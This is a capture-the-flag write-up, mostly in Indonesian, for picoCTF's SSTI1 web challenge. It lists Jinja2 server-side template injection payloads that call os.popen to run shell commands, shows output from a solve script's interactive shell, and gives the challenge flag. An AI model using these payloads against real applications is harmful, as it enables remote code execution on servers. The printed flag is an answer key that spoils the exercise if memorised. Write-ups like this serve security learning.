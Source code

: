 # soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  ![alt text](images/E_SSTI1/image.png)
  ![alt text](images/E_SSTI1/image-1.png)
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/) \
  ```bash
  {{config}}

  {{self}} 
  {{_self.env}}
  {{self.env}}
  {{self._templateReference}}

  # 1
  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}

  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

  # 2
  {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
  ```

## python
- download [E_SSTI1.py](https://raw.githubusercontent.com/ariafatah0711/ctf_aria/refs/heads/main/picoCTF/web_exploit/solve/E_SSTI1.py) 
- ubah url nya: ```TARGET_URL = "http://rescued-float.picoctf.net:61261/"``
- lalu jalankan
  ```bash
  python3 E_SSTI1.py
  Shell> ls
  __pycache__
  app.py
  flag
  requirements.txt
  Shell> cat flag
  picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
  Shell> ^C
  ```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}